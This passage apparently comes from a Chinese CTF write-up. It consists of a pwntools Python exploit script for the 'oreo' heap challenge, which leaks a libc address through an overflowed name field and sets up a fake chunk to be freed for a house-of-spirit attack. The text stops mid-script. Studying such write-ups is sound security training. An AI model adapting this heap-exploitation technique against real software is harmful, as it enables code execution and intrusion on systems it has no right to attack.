 具体代码如下

```python
from pwn import *
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
if args['DEBUG']:
    context.log_level = 'debug'
context.binary = "./oreo"
oreo = ELF("./oreo")
if args['REMOTE']:
    p = remote(ip, port)
else:
    p = process("./oreo")
log.info('PID: ' + str(proc.pidof(p)[0]))
libc = ELF('./libc.so.6')


def add(descrip, name):
    p.sendline('1')
    #p.recvuntil('Rifle name: ')
    p.sendline(name)
    #p.recvuntil('Rifle description: ')
    #sleep(0.5)
    p.sendline(descrip)


def show_rifle():
    p.sendline('2')
    p.recvuntil('===================================\n')


def order():
    p.sendline('3')


def message(notice):
    p.sendline('4')
    #p.recvuntil("Enter any notice you'd like to submit with your order: ")
    p.sendline(notice)


def exp():
    print 'step 1. leak libc base'
    name = 27 * 'a' + p32(oreo.got['puts'])
    add(25 * 'a', name)
    show_rifle()
    p.recvuntil('===================================\n')
    p.recvuntil('Description: ')
    puts_addr = u32(p.recvuntil('\n', drop=True)[:4])
    log.success('puts addr: ' + hex(puts_addr))
    libc_base = puts_addr - libc.symbols['puts']
    system_addr = libc_base + libc.symbols['system']
    binsh_addr = libc_base + next(libc.search('/bin/sh'))

    print 'step 2. free fake chunk at 0x0804A2A8'

    # now, oifle_cnt=1, we need set it = 0x40
    oifle = 1
    while oifle < 0x3f:
        # set next link=NULL
        add(25 * 'a', 'a' * 27 + p32(0))
        oifle += 1
    payload = 'a' * 27 + p32(0x0804a2a8)
    # set next link=0x0804A2A8, try to free a fake chunk
```